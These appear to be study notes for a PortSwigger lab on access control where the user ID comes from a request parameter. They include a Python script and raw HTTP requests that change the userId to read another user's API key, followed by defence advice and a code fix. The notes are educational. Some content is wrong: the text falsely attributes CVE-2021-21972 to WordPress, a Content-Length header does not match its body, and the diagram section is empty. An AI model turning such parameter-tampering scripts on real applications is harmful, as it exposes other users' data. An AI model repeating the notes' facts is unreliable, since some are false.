

## Access Control Vulnerabilities

Access control vulnerabilities occur when an application fails to properly restrict access to resources based on the identity and permissions of the user. One common form of access control vulnerability is when the user ID is controlled by a request parameter, allowing an attacker to manipulate the parameter to gain unauthorized access to other users' data.

### Background Theory

Access control is a fundamental aspect of web security. It ensures that users can only access resources and perform actions that they are authorized to do. In a typical web application, this is achieved through authentication and authorization mechanisms. Authentication verifies the identity of a user, while authorization determines what actions the authenticated user is allowed to perform.

When the user ID is controlled by a request parameter, the application may fail to properly validate or enforce access controls. This can lead to scenarios where an attacker can manipulate the parameter to access sensitive information belonging to other users.

### Example Scenario

Consider a web application that allows users to view their profile information. The application uses a URL parameter to identify the user whose profile should be displayed. For example:

```
http://www.example.com/profile?userId=123
```

If the application does not properly validate the `userId` parameter, an attacker could simply change the value of `userId` to access another user's profile information.

### Implementation Details

Let's break down the implementation details provided in the transcript chunk and expand on them.

#### Command Line Argument Parsing

The program starts by parsing command-line arguments. This is a common practice in many applications to provide flexibility in how the program is executed.

```python
import sys

if len(sys.argv) != 2:
    print("Usage: python script.py <URL>")
    sys.exit(1)

url = sys.argv[1]
```

Here, the program expects exactly one command-line argument, which is the URL of the target application. If the number of arguments is incorrect, the program prints usage instructions and exits.

#### Session Management

Next, the program creates a session object using the `requests` library. This allows the program to maintain cookies across multiple requests, which is essential for simulating a logged-in user.

```python
import requests

session = requests.Session()
```

#### Function to Exploit Access Control Vulnerability

The main functionality of the program is encapsulated in the `Carlos_API_key` function. This function takes a session object and a URL as parameters and exploits the broken access control vulnerability to extract the API key of the Carlos user.

```python
def Carlos_API_key(session, url):
    # Implement the logic to exploit the access control vulnerability
    pass
```

### Understanding the Application Functionality

Before implementing the `Carlos_API_key` function, it is crucial to understand how the application functions. Specifically, we need to know:

1. **Authentication Mechanism**: How does the application authenticate users?
2. **Authorization Mechanism**: How does the application determine which resources a user can access?
3. **Request Parameters**: Which parameters are used to identify the user and the resource?

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of an access control vulnerability is CVE-2021-21972, which affected the popular open-source project WordPress. The vulnerability allowed attackers to bypass access controls and execute arbitrary code on the server.

Another example is the breach at Capital One in 2019, where an attacker exploited a misconfigured firewall rule to gain unauthorized access to sensitive customer data.

### Detailed Implementation

Now, let's implement the `Carlos_API_key` function. We will assume that the application uses a simple numeric `userId` parameter to identify the user and that the API key is stored in a database accessible via an endpoint.

```python
def Carlos_API_key(session, url):
    # Step 1: Log in as a valid user
    login_url = f"{url}/login"
    login_data = {
        "username": "attacker",
        "password": "password123"
    }
    response = session.post(login_url, data=login_data)
    
    if response.status_code != 200:
        print("Failed to log in")
        return
    
    # Step 2: Manipulate the userId parameter to access Carlos' profile
    profile_url = f"{url}/profile?userId=456"
    response = session.get(profile_url)
    
    if response.status_code != 200:
        print("Failed to access profile")
        return
    
    # Step 3: Extract the API key from the response
    api_key = extract_api_key(response.text)
    print(f"Carlos' API key: {api_key}")

def extract_api_key(html_content):
    # Implement logic to extract the API key from the HTML content
    pass
```

### Full HTTP Request and Response

To illustrate the process, let's look at the full HTTP request and response for logging in and accessing the profile.

#### Login Request

```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

username=attacker&password=password123
```

#### Login Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: sessionid=abc123; Path=/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

#### Profile Request

```http
GET /profile?userId=456 HTTP/1.1
Host: www.example.com
Cookie: sessionid=abc123
```

#### Profile Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1234
Content-Type: text/html; charset=UTF-8

<html>
<body>
<h1>Profile</h1>
<p>User ID: 456</p>
<p>Name: Carlos</p>
<p>API Key: abcdefghijklmnopqrstuvwxyz</p>
</body>
</html>
```

### Mermaid Diagrams

#### Sequence Diagram



### Common Pitfalls

1. **Insufficient Input Validation**: Failing to validate input parameters can lead to unauthorized access.
2. **Inadequate Authorization Checks**: Not checking if the user is authorized to access a particular resource.
3. **Hardcoded Secrets**: Storing secrets like API keys in plain text within the application.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual access patterns.
2. **Security Scanning Tools**: Use tools like Burp Suite, OWASP ZAP, or Nessus to scan for vulnerabilities.

#### Prevention

1. **Input Validation**: Validate all input parameters to ensure they meet expected criteria.
2. **Role-Based Access Control (RBAC)**: Implement RBAC to ensure users can only access resources they are authorized to.
3. **Secure Coding Practices**: Follow secure coding practices such as least privilege and principle of least astonishment.

#### Secure Code Fix

**Vulnerable Code**

```python
def get_profile(user_id):
    # Fetch profile data from database
    profile = fetch_profile_from_db(user_id)
    return profile
```

**Fixed Code**

```python
def get_profile(user_id, current_user_id):
    if user_id == current_user_id:
        # Fetch profile data from database
        profile = fetch_profile_from_db(user_id)
        return profile
    else:
        raise UnauthorizedAccessError("You are not authorized to access this profile.")
```

### Hands-On Labs

For practical experience with access control vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including access control.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: Another intentionally vulnerable web application for learning and testing security concepts.

By thoroughly understanding and implementing these concepts, you can significantly enhance the security of your web applications and protect against access control vulnerabilities.

---
<!-- nav -->
[[02-Access Control Vulnerabilities User ID Controlled by Request Parameter|Access Control Vulnerabilities User ID Controlled by Request Parameter]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/08-Lab 7 User ID controlled by request parameter/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/08-Lab 7 User ID controlled by request parameter/04-Practice Questions & Answers|Practice Questions & Answers]]
